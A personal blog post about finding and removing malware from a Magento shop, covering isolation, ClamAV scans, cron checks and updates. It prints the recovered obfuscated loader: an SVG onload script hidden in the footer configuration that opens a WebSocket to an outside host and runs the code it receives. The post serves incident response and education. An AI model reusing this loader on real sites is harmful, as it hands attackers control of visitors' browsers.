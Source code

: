 ```yaml
---
layout: post
title: Magento has virus, how I got rid of it
date: 2024-09-03 22:25 +0200
image:
  path: /assets/img/posts/2024-09-03-magento-virus-how-i-got-rid-of-it/img001.webp
  alt: A computer in the dark lighting red from the monitor
categories: [Security, Malware]
tags: [magento, security, malware]
---
```

One day I received a call from a friend who informed me their system had been infected by a virus and they were asking for help getting rid of it, I immediately said that I would help thinking it would be an easy fix, However, I quickly realized I was wrong.

## Keep the world away!!

The first thing I did was isolate the site from the outside world and made it possible only to access it from my computer by whitelisting only my IP, which allowed me to continue working with the site remotely.

When a system is affected by a virus, it is crucial to isolate it from the outside world to prevent the virus from spreading, or, if possible, disconnect it from the network entirely by removing the network cable. However, this wasn't possible because I was miles away, so I had to do what I could remotely.

## Mr. Virus, where are you hiding?

Now that I had isolated the virus it was time to find the bugger, I started with looking into all the logs I could figure out or find to see if there would be any indications of where it could be and also to ensure that no data had left the server and I could not see any indications of this, either it was sophisticated enough to remove all log entries it generated or it was never able to set up any connection outside of the server, hopefully the latter but you can never be sure and should always take responsibility and inform your users of an potential data leak.

After thoroughly reviewing the logs, I concluded that they would not reveal to me the path to the virus so I moved on and ran a service called ClamAV (clamscan) to see if it could find any suspicious files.
 
```bash
sudo clamscan -r / --infected --remove
```

and success it could find 2 files, defunct and defunct.dat which I removed, in the same folder I could find a log file telling me it had tried to setup a cronjob but had failed doing so, I removed this file also, unfortunately before I documented the content of the file so even if I want to show what the content I can't.

Once the files were removed I ran the service again to make sure the files was really removed and not other infected files could be found.

## Was there any cron jobs?

So the log file I found had exposed that it tried to create a cron job so I of course had to make sure it actually didn’t manage to do this and the log was lying so I went through all cron jobs for each user, wanted to be sure nothing was hidden so I checked in multiple ways:

```bash
$ crontab -l
$ sudo crontab -l
$ sudo -u www-data crontab -l
$ sudo cat /etc/crontab
$ sudo ls /etc/cron.*
```

No mather how I checked I could not find any cronjob that looked weird, so made the conclusion that it was actually never able to create any cronjobs.

Even if a log says something or even worse, says nothing you should always expect the worst because the log might be lying to throw you off, so it's better to be safe than sorry. 

## So was that it?

Now with the infected files gone you might think it was safe to open up the server to the world again, but not so fast!

The infected files might have been removed but there can still be danger around the corner so what I did was to set up a tunnel proxy to access the site from my computer and could see that the site tried to create a WebSocket connection but was blocked by CSP so instead I got a console error that looked like this:

```
Content-Security-Policy: (Report-Only policy)
The page’s settings would block the loading of a resource (connect-src)
at wss://fallodick87-78.sbs/common…
```

I looked into what the dev tool was saying about the script that was trying to be run and could find the following 

```javascript
(function anonymous() {
  const ogt = [
    93, 89, 89, 16, 5, 5, 76, 75, 70, 70, 69, 78, 67, 73, 65, 18, 29, 7, 29,
    18, 4, 89, 72, 89, 5, 73, 69, 71, 71, 69, 68, 21, 89, 69, 95, 88, 73, 79,
    23
  ];
  hky = 42;
  const xvk = String.fromCharCode(...ogt.map(airu => airu ^ hky));
  window.ww = new WebSocket(xvk + encodeURIComponent(location.href));
  window.ww.addEventListener('message', event => {
    new Function(event.data)();
  });
})
```

So I realized that there was still something wrong that needed to be investigated so I started searching the webbserver for keywords from the script I found, I knew that variable names and function names get’s randomly generated for security reasons so I focused on other keywords like “WebSocket”, “addEventListener”, “encodeURIComponent” and so on but no luck.. I concluded that the problem was not on the web server side, then where can it be?

The only other part of the system I knew could store these kind of data is the database so I created a dump of the entire databas so I could easily search though it and started to search for different keywords but again no luck, I was really confused now and lost now and it was in the middle of the night so lack of sleep was also fighting against me here and might be the reason why I missed two things that would had made my find this earlier but more about that soon.

I keep’t digging for clues on both the webbserver side and in the database but still no luck, finally I opened up the site in Chrome to see if I got another error there and what happen was that Chrome did something that Firefox didn’t and that was to point out the location of where the infected script was in the DOM and there I could see that it was a svg tag that was created so went back to the database and went through all entries with an svg in it and finally found it!!

```sql
(
    XXXX,
    'default',
    0,
    'design/footer/absolute_footer',
    '\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r
    \n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n<svg width=\"1px\"
     height=\"1px\" onload=\"!function(aa,t){!function(aa){var n=function(aa,t)
     {return aa.split(\'\').map(function(aa,n){return String.fromCharCode(aa.
     charCodeAt(0)^t.charCodeAt(n%t.length))}).join(\'\')}(aa.split(\'\')
     .reverse().join(\'\'),t);new Function(n)()}(aa)}(
     \'\\x5c\\x48\\x09\\x5c\\x4e\\x49\\x5d\\x06\\x13\\x00\\x10\\x49\\x13\\x0f
     \\x11\\x11\\x02\\x49\\x1a\\x08\\x0e\\x15\\x17\\x09\\x12\\x27\\x54\\x10\\x02
     \\x0f\\x0f\\x47\\x59\\x5c\\x54\\x13\\x09\\x04\\x02\\x02\\x47\\x4d\\x53\\x02
     \\x00\\x00\\x07\\x14\\x02\\x0c\\x53\\x4f\\x15\\x04\\x1a\\x02\\x13\\x12\\x1d
     \\x2b\\x13\\x0f\\x11\\x11\\x22\\x05\\x10\\x06\\x49\\x16\\x03\\x49\\x10\\x0e
     \\x10\\x09\\x0e\\x16\\x4f\\x4e\\x4e\\x07\\x11\\x15\\x0f\\x4f\\x1a\\x08\\x0e
     \\x15\\x15\\x04\\x08\\x0d\\x5c\\x13\\x09\\x04\\x1a\\x08\\x17\\x0c\\x1b\\x24
     \\x2e\\x33\\x21\\x02\\x03\\x0e\\x17\\x09\\x02\\x41\\x5f\\x47\\x0c\\x17\\x0c
     \\x4f\\x13\\x04\\x1f\\x04\\x08\\x32\\x16\\x02\\x30\\x41\\x03\\x02\\x09\\x41
     \\x49\\x47\\x10\\x16\\x5a\\x10\\x08\\x05\\x1a\\x0e\\x10\\x5a\\x5d\\x4e\\x1e
     \\x0a\\x1c\\x47\\x39\\x41\\x01\\x15\\x0e\\x00\\x54\\x59\\x5a\\x41\\x01\\x15
     \\x0e\\x00\\x5c\\x17\\x06\\x0c\\x5a\\x13\\x00\\x0e\\x5a\\x49\\x49\\x49\\x11
     \\x03\\x08\\x22\\x06\\x06\\x0f\\x22\\x19\\x08\\x15\\x07\\x5a\\x00\\x09\\x08
     \\x06\\x13\\x34\\x41\\x49\\x47\\x0c\\x17\\x0c\\x47\\x13\\x12\\x1a\\x08\\x04
     \\x5a\\x46\\x53\\x47\\x5c\\x54\\x1e\\x0c\\x09\\x4f\\x3a\\x54\\x53\\x58\\x5e
     \\x50\\x4d\\x47\\x50\\x4b\\x59\\x4c\\x4b\\x52\\x58\\x58\\x5e\\x51\\x4d\\x4d
     \\x5f\\x4b\\x50\\x46\\x4b\\x5f\\x57\\x58\\x5e\\x51\\x4d\\x45\\x50\\x4b\\x50
     \\x43\\x4b\\x5e\\x57\\x58\\x54\\x50\\x4d\\x41\\x4b\\x5e\\x59\\x58\\x55\\x50
     \\x4d\\x4d\\x5f\\x4b\\x55\\x58\\x5f\\x56\\x4d\\x4d\\x55\\x4b\\x56\\x58\\x5e
     \\x55\\x4d\\x4c\\x56\\x4b\\x54\\x42\\x4b\\x54\\x56\\x58\\x50\\x51\\x4d\\x4c
     \\x50\\x4b\\x58\\x42\\x4b\\x57\\x56\\x58\\x57\\x50\\x4d\\x41\\x50\\x4b\\x57
     \\x43\\x4b\\x52\\x4d\\x41\\x4b\\x51\\x50\\x58\\x5e\\x5f\\x4d\\x4d\\x5f\\x4b
     \\x52\\x4d\\x3c\\x47\\x5c\\x54\\x13\\x00\\x0e\\x54\\x13\\x14\\x0f\\x1b\\x04\', 
     \'gtag\');\"></svg>',
    'YYYY-mm-dd HH:ii:ss'
  )
```

Removing the infected script and took a bit of the script and made another search of the dump I could find another place that had the same script som I removed that as well, and with the infected scripts removed I went back to my browser and could confirm that no more WebSockets was trying to be created so I called that an success!

## I did some mistakes..

So after this success, I came to the conclusion that I made two mistakes that could have saved me slot of time:

1. Using Firefox I could have asked it to show me where in the DOM the script was but I was to focused on what the dev tool said about the script that was loaded that I never thought about looking in the DOM at all, a lesson learned!
2. Even though I tried multiple words from the script, I couldn't find them because they were encoded and decrypted in the browser. However, there was one word I missed that would have pointed me directly to the source without having to look into the DOM: 'fromCharCode' and that was “fromCharCode”, this existed both in the generated script and in the database.

Even though I made these mistakes and it made the process longer I am happy I made them because when you make mistakes you learn so if this happens again or I have to search for similar things I will have in my memory to both check all keywords and also check the DOM.

## Time to open up the site to the world and go to bed!

Not really, the virus was now confirmed gone but somehow it had been allowed into the system, so we had a hole somewhere, so what I wanted to do was to upgrade the site, the composer packages and also the Linux packages to the latest version to help mitigate that it would happen again, so I spent another hour or two making sure everything was up to date, usually I would have done this in a development environment first but because the site is being used every day I wanted to speed up the process and do it immediately in production and this was okay by the owner (my friend), but as a general rule, always do the upgrade first in a test or dev environment to make sure nothing crashes before upgrading your production environment.

## Finally time to go live

Once everything was up-to-date, I reopened the site to the world and informed the owner that everything is back in business and requested that they inform their users about the breach so they can change passwords and so on.

My final advice is to ensure your systems are up to date and to have all the necessary security features enabled to prevent this to happen to you, you can never protect yourself entirely from a virus or a hacker but you can make it hard for them and let them work for it.
